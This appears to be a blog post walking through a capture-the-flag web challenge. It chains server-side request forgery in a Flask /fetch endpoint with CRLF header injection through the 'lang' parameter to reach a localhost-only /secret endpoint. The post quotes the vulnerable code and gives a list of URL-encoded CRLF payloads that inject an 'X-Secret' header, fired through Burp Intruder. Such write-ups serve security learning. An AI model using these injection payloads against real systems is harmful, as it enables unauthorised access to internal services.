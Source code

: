 ```yaml
---
layout: post
title: Gynvael's web security challenge - part 0.
subtitle: Quick hacking at the weekend.
gh-repo: daattali/beautiful-jekyll
tags: [ctf, hacking, challenges]
comments: true
---
```


Over the weekend I have decided to play with Gynvael's web security challenges. The post prestes the write-up of the challenge 0.
The challenge is located under the following URL:
http://challenges.gynvael.stream:5000/

The challenge is simple FLASK application running as the Werkzaug - flask development web server.
After the quick code analysis we see that to complete the challenge we must get the response from the /secret endpoint

```
@app.route('/secret')
def secret():
  if request.remote_addr != "127.0.0.1":
    return "Access denied!"

  if request.headers.get("X-Secret", "") != "YEAH":
    return "Nope."

  return f"GOOD WORK! Flag is {FLAG}"
```

To get the flag we would have to bypass to conditional checks, first requirement is that the request must come from the localhost. The second requirement is that the HTTP request must have the X-Secret HTTP header with the value of YEAH.

So, the get the flag, we would have to exploit the Server Side Request Forgery on the same server, to be able to send HTTP request to loopback interface. Then, we would have to find the HTTP Header Injection sometimes called CRLF injection to be able to send the custom X-Secret HTTP header.

Luckly for us the web server exposes other endpoint /fetch:
```
@app.route('/fetch', methods=["POST"])
def fetch():
  url = request.form.get("url", "")
  lang = request.form.get("lang", "en-US")

  if not url:
    return "URL must be provided"

  data = fetch_url(url, lang)
  if data is None:
    return "Failed."

  return Response(data, mimetype="text/plain;charset=utf-8")
```

Analyzing the parameters that the endpoint expects - url and lang, we can say that the endpoint perform SSRF for us by calling the fetch_url(url,lang) function. Interesting part in the fetch_url(url,lang) function is the part describing how the HTTP request is built:

```
  req = '\r\n'.join([
    f"GET {o.path} HTTP/1.1",
    f"Host: {o.netloc}",
    f"Connection: close",
    f"Accept-Language: {lang}",
    "",
    ""
  ])
```

As we can see it is a simple string concatenation, so we would be able to provide the end of line characters and inject arbitrary HTTP Header to the request.

Let's go the exploitation, I would use the Burp Sutie Community Edition for that. We first try to send the request to http://localhost:5000/secret without changing the language parameter.

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_1.png)


With that request, we would hit the second condition as the HTTP Header X-Secret is not set. Then, I would use Intruder to try different payloads for injecting the CRLF.

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_2.png)

I have prepared the following list of payloads to try which has some of the common encoded characters to do CRLF injection.
```
%0a%0aX-Secret:%20YEAH
%0aX-Secret:%20YEAH
%0d%0aX-Secret:%20YEAH
%0dX-Secret:%20YEAH
%23%0aX-Secret:%20YEAH
%23%0d%0aX-Secret:%20YEAH
%23%0dX-Secret:%20YEAH
%25%30%61X-Secret:%20YEAH
%25%30aX-Secret:%20YEAH
%250aX-Secret:%20YEAH
%25250aX-Secret:%20YEAH
%2e%2e%2f%0d%0aX-Secret:%20YEAH
%2f%2e%2e%0d%0aX-Secret:%20YEAH
%2F..%0d%0aX-Secret:%20YEAH
%3f%0d%0aX-Secret:%20YEAH
%3f%0dX-Secret:%20YEAH
%u000aX-Secret:%20YEAH
```

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_3.png)

Additionally, we go the Options tab and set the Grep-Match to "GOOD WORK!" as this shows up when the flag is returned.

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_4.png)

Then, we click "Start Attack", and see the results.

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_5.png)

As we can see few of the Intruder's requests returned the flag. We can now view the response with the flag.